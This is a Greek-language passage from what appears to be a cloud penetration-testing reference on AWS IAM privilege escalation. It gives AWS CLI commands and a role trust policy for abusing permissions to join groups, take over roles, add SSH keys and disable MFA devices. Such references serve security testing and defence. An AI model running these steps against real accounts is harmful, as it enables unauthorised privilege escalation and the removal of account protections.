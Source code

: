 ```json
]
}
```
**Επίπτωση:** Άμεση επέκταση προνομίων με την προσθήκη δικαιωμάτων μέσω πολιτικών.

### **`iam:AddUserToGroup`**

Επιτρέπει την προσθήκη του εαυτού σε μια ομάδα IAM, επεκτείνοντας τα προνόμια με την κληρονομικότητα των δικαιωμάτων της ομάδας.

**Εκμετάλλευση:**

{% code overflow="wrap" %}
```bash
aws iam add-user-to-group --group-name <group_name> --user-name <username>
```
{% endcode %}

**Επίπτωση:** Άμεση ανόδος προνομίων στο επίπεδο των δικαιωμάτων της ομάδας.

### **`iam:UpdateAssumeRolePolicy`**

Επιτρέπει την τροποποίηση του εγγράφου πολιτικής υποθέσεως ρόλου ενός ρόλου, ενεργοποιώντας την υπόθεση του ρόλου και των συναφών δικαιωμάτων του.

**Εκμετάλλευση:**
```bash
aws iam update-assume-role-policy --role-name <role_name> \
--policy-document file:///path/to/assume/role/policy.json
```
Όπου η πολιτική φαίνεται όπως παρακάτω, η οποία δίνει στον χρήστη άδεια να υιοθετήσει τον ρόλο:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": "sts:AssumeRole",
"Principal": {
"AWS": "$USER_ARN"
}
}
]
}
```
**Επίπτωση:** Άμεση επέκταση προνομίων με την υπόθεση των δικαιωμάτων οποιουδήποτε ρόλου.

### **`iam:UploadSSHPublicKey` || `iam:DeactivateMFADevice`**

Επιτρέπει τη μεταφόρτωση ενός δημόσιου κλειδιού SSH για πιστοποίηση στο CodeCommit και την απενεργοποίηση συσκευών MFA, οδηγώντας σε πιθανή έμμεση επέκταση προνομίων.

**Εκμετάλλευση για Μεταφόρτωση Κλειδιού SSH:**
```bash
aws iam upload-ssh-public-key --user-name <username> --ssh-public-key-body <key_body>
```
**Εκμετάλλευση για Απενεργοποίηση του MFA:**
```bash
aws iam deactivate-mfa-device --user-name <username> --serial-number <serial_number>
```
**Επίπτωση:** Έμμεση ανόδος προνομίων με την ενεργοποίηση πρόσβασης στο CodeCommit ή την απενεργοποίηση προστασίας MFA.
